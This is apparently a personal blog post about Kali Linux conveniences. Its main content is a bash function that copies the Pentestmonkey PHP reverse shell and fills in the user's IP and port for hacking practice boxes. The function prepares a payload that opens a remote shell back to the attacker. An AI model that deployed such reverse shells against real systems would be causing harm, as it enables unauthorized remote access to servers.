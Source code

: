 ```yaml
---
layout:     post
title:      Kali Linux QoL
date:       2019-09-21 15:20:20
author:     J
summary:    Life's too short
categories: General
thumbnail:  thumbs-up
tags:
 - Linux
 - Kali
---
```


This post will be updated once in a blue moon. Just wanted to share some of my stuff which I use as I think it's good to automate certain processes when hacking boxes. Life's too short to be repeating stuff all the time.


## PHP Reverse Shell Generator

This particular script is for generating a PHP reverse shell with IP address and port preconfigured in the current working directory. This is particularly useful if you find that your IP address has changed due to changing VPNs or just that a new one was issued to you when reconnecting. Just append it to your `.bashrc` file in your user's home directory and restart your terminal to use. The original script can be found on [Pentestmonkey here][1]. Just replace the ip address to 'ipaddress' and set the port to 443.
Alternatively, you can download the [pre-modified version on my Github][2] to use with this script. Change the directory in the script to where you saved the script to.

Usage: `phprev <Interface> <Optional: Listening Port>`


~~~bash

# Create PHP reverse shell in current directory. Usage example: phprev tun0 1234
# Defaults to port 443 if port is not specified

function phprev() {
phprevshelldir=/root/Try-Harder/Scripts/Shells/php-reverse-shell.php #CHANGE THIS
if [ $# -eq 0 ]; then echo "Please define interface"
else
    revip=`ifconfig $1 | head -n2 | tail -n1 | awk '{print $2}' `
    cp $phprevshelldir ./rev.php && sed -i 's/ipaddress/'$revip'/g' rev.php
        if [ $# -eq 2 ]; then
        revport=$2 ;
        sed -i 's/443/'$2'/g' rev.php
        else revport=443
        fi
    echo "PHP reverse shell(rev.php) created and configured to connect back to:" $revip:$revport
fi
}


~~~

[1]: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
[2]: https://github.com/Dreamscent/Try-Harder/blob/master/Scripts/Shells/php-reverse-shell.php
